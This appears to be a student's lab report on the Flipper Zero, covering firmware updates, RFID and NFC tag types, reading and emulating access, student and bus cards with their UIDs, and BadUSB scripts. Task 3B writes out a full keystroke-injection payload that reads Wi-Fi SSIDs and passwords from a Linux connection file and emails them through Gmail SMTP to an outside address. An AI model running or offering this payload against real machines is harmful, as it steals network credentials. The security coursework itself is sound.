





# Task 1
## A)
- Ensure your Flipper Zero has outdated firmware and requires an upgrade.
- Insert an SD card and format it to exFAT or FAT32 using the built-in formatting system on the Flipper Zero.
- The SD card stores important auxiliary files, including databases, that are essential for various Flipper Zero features to work correctly.
- With the SD card mounted, you can now proceed with the firmware upgrade.
- To update the firmware, press the designated update button on the Flipper Zero.

The interface of the qFlipper before updating the firmware looks like below. 


The interfae of the qFlipper is as below when I update all the firmware. 



- I can manage Flipper Zero files in the qFlipper application
- In the File manager tab, files can be deleted, renamed, and uploaded to Flipper Zero. Keyboard keys can be used to navviate through files.
- To upload files in the File manager tab, files can be dragged and dropped to the desired folder or right-click the required folder and click `Upload`.



## B)

_**What different kind of RFID tags are present in market? Is there a way to distinguish between them?**_

**Types of RFID Tags**:
1. **Low-Frequency (LF) RFID Tags**:
   - Slower read rates with shorter read ranges.
   - Less susceptible to interference by liquids and metals.
   - Used in applications like inventorying beer kegs or automobiles.

2. **High-Frequency (HF) RFID Tags**:
   - Longer read range and higher memory capabilities.
   - Suitable for cataloging library media and theme park bracelets.
   - NFC tags are a subcategory of HF RFID technology with specific use cases.

3. **Ultra-High-Frequency (UHF) RFID Tags**:
   - Lower priced and provide good read ranges and rates.
   - Commonly used for item-level tracking, retail inventory control, and supply chain efficiencies.

**Active, Passive, and Semi-Passive RFID Tags**:
- **Active RFID Tags**: Have a battery and periodically transmit signals, suitable for location tracking with longer read ranges.
- **Passive RFID Tags**: Remain dormant until they receive a radio signal from a reader, reflect the signal back.
- **Semi-Passive (Battery-Assisted) RFID Tags**: Contain a battery but only turn on when receiving a signal, reflecting all energy back.
- Active tags are more expensive and used for high-value assets, while passive tags, especially UHF and NFC, are widely used for product and pallet labels.

**NFC Tags**:
- A subcategory of HF RFID technology, operating at 13.56 MHz.
- Suitable for contactless payment applications and personalized customer engagement.
- Popular in promotional labels, posters, and interactive customer experiences.

RFID technology provides various options for different use cases and applications, from supply chain efficiencies to customer engagement. The choice of RFID tag type depends on the specific requirements of the application.

References: https://www.resourcelabel.com/resources/comparing-different-types-of-rfid-tags/

_**How flipper zero interacts with different RFID tags. How tag readers work in general?**_

_RFID Readers:_

RFID readers are devices that transmit power to RFID tags and read or write data to them. They are typically stationary units and can have their own power source. RFID readers are central to RFID systems, serving as the communication hub with RFID tags. They are categorized into Fixed, Mobile, and USB readers based on mobility. Fixed readers, often wall-mounted, support multiple antennas for diverse coverage areas. Mobile readers, cordless and battery-powered, can connect to host devices via Wi-Fi or Bluetooth. Two types of Mobile RFID readers include those with onboard computers (Mobile Computing Devices) and those using Bluetooth or Auxiliary connections to smart devices (Sleds). Integrated readers, common in both fixed and mobile categories, have built-in antennas and are ideal for indoor, low-traffic applications, emphasizing aesthetics and convenience.

RFID readers consist of an antenna and a modulator/demodulator. In general, the reader modulates the signal and transmits it to the antenna. The same signal is sent back to the reader for detection. This allows the reader to detect signal changes due to backscatter modulation, a key technique used in RFID communication. 

_High-Frequency (HF) Proximity Cards:_

- The Flipper Zero has a built-in NFC module operating at 13.56 MHz, supporting major HF standards.
- It allows you to interact with NFC-enabled devices, such as reading, writing, and emulating HF tags.
- This means you can read information from and write information to HF tags like smart cards or NFC-enabled access control cards.
- It enables you to emulate HF tags, essentially allowing the Flipper Zero to impersonate a legitimate tag for authentication or access purposes.

_Low-Frequency (LF) Proximity Cards:_

- Flipper Zero has a 125 kHz module for LF RFID, which is often used for older access control systems.
- It can read LF cards like EM-4100 and HID Prox cards, which are widely used for access control.
- Once read, the Flipper Zero can save the LF card IDs to memory, allowing you to emulate these cards later.
- The device also provides the capability to manually enter card IDs for emulation.
- Users of the Flipper Zero can remotely exchange card IDs, which can be useful for sharing or updating access credentials.

_**What tools exist in market and mobile applications to access/read RFID devices**_

Dedicated RFID readers are designed for reading and interacting with RFID tags. They come in various forms, from handheld devices to fixed, desktop readers. For UHF RFID technology, there are apps available for Android and iOS devices that can read and write UHF RFID tags. These apps usually require additional hardware, such as an external RFID reader that connects to your mobile device.
Examples: 
- Zebra Technologies provides RFID products various RFID components such as, Handheld RFID Readers and RFID-enabled Devices, RFID Printers, RFID Labels and Supplies and etc.
  The link: https://www.zebra.com/us/en/products/rfid.html

A few of the companies that provide RFID-related products are, Impinj, Alien Technology, ThingMagic, etc.

2. Smartphone Apps for NFC:

Most modern smartphones are equipped with NFC (Near Field Communication) capabilities. Many mobile apps are available for reading NFC tags, including contactless payment and access control apps. Below I have shown the first set of results that appear on Google Play Store when I search for an NFC tag reader. 



The 'About' section in the `NFC Tag Reader` app shows that the app can read and write data on the below types of data.
      - Contact details
      - Link content
      - Geo Location
      - Launch application
      - Plane text
      - SMS 



# Task 2

## A)

- **Blank card**

_What kind of card/key is it? Is it 125kHz or NFC_

NFC

_What is the UID of card/key?_

UID: `EB FA 98 54`

_Can this card/key be emulated by flipper zero?_

No

_Transfer one of the saved card/key files to your computer and open it with text editor. What do you see? Paste screenshot._


- **Student card**

_What kind of card/key is it? Is it 125kHz or NFC_

NFC

_What is the UID of card/key?_

UID: `AA 62 0D B3`

_Can this card/key be emulated by flipper zero?_

No

_Transfer one of the saved card/key files to your computer and open it with text editor. What do you see? Paste screenshot._


- **Bus card**

_What kind of card/key is it? Is it 125kHz or NFC_

NFC

_What is the UID of card/key?_

UID: `04 3A 37 12 35 77 80`

_Can this card/key be emulated by flipper zero?_

No

_Transfer one of the saved card/key files to your computer and open it with text editor. What do you see? Paste screenshot._



**Blue key**

_What kind of card/key is it? Is it 125kHz or NFC_

125kHz/RFID

_What is the UID of card/key?_

UID: `36 00 48 B7 5D`

_Can this card/key be emulated by flipper zero?_

No

_Transfer one of the saved card/key files to your computer and open it with text editor. What do you see? Paste screenshot._


- **Sticker key**

_What kind of card/key is it? Is it 125kHz or NFC_

NFC

_What is the UID of card/key?_

UID: `04 8F 6F 52 9B 29 80`

_Can this card/key be emulated by flipper zero?_

Yes

_Transfer one of the saved card/key files to your computer and open it with text editor. What do you see? Paste screenshot._


-**A card/key of your own choice**
   - Blue NFC tag

_What kind of card/key is it? Is it 125kHz or NFC_

NFC

_What is the UID of card/key?_

UID: `CC 22 3F 64`

_Can this card/key be emulated by flipper zero?_

No

_Transfer one of the saved card/key files to your computer and open it with text editor. What do you see? Paste screenshot._


## B)

The report is [here.](task_2_B)

## C)

The video was created by our group members. It's attached [here.](task2C_video)

# Task 3

## A) 

```ducky
REM OPEN LINUX TERMINAL
DELAY 3000
ALT F2
DELAY 1000
STRING x-terminal-emulator
DELAY 500
ENTER
DELAY 2000
STRING echo 'Hello'
ENTER
```

## B)

I tried badusb scripts with the Flipper zero. The script is as follows. 

```ducky
ALT F2
DELAY 1000
STRING x-terminal-emulator
ENTER
DELAY 2000
STRING pwsh
ENTER
DELAY 2000
STRING $Username = "email@gmail.com"; $Password = "abc1234"; 
ENTER
DELAY 1000
STRING $searchResult = Select-String -Path "/home/kali/Documents/CSIIIEx6/networkfile.nmconnection" -Pattern 'ssid=|psk=' | ForEach-Object { $_.Line -replace "/home/kali/Documents/CSIIIEx6/networkfile.nmconnection:", "" }
ENTER
DELAY 1000
STRING $searchResultAsString = $searchResult -join "`r`n"
ENTER
DELAY 1000
STRING function Send-ToEmail([string]$email, [string]$msgBody) {
ENTER
DELAY 1000
STRING $message = New-Object Net.Mail.MailMessage
ENTER
DELAY 1000
STRING $message.From = $Username
ENTER
DELAY 1000
STRING $message.To.Add($email)
ENTER
DELAY 1000
STRING $message.Subject = "[Cyber Security III] Lab6: Task 3 - BADUSB Flipper - WIFI Password email"
ENTER
DELAY 1000
STRING $message.Body = $msgBody
ENTER
DELAY 1000
STRING $smtp = New-Object Net.Mail.SmtpClient("smtp.gmail.com", 587)
ENTER
DELAY 1000
STRING $smtp.EnableSsl = $true
ENTER
DELAY 1000
STRING $smtp.Credentials = New-Object System.Net.NetworkCredential($Username, $Password)
ENTER
DELAY 1000
STRING try {
ENTER
DELAY 1000
STRING $smtp.Send($message)
ENTER
DELAY 1000
STRING Write-Host "Mail Sent"
ENTER
DELAY 1000
STRING } catch {
ENTER
DELAY 1000
STRING Write-Host "Failed to send the email. Error: $($_.Exception.Message)"
ENTER
DELAY 1000
STRING }
ENTER
DELAY 1000
STRING }
ENTER
DELAY 1000
STRING Send-ToEmail -email "win10_9121@outlook.com" -msgBody $searchResultAsString
ENTER
DELAY 1000
```

But the attack was not successful. The result is as mentioned in the [video.](https://youtu.be/llA5RpW7hVg)

I tried to showcase the result by running the same script in Powershell separately. The result is [here.](https://youtu.be/zZD78ARtKls)
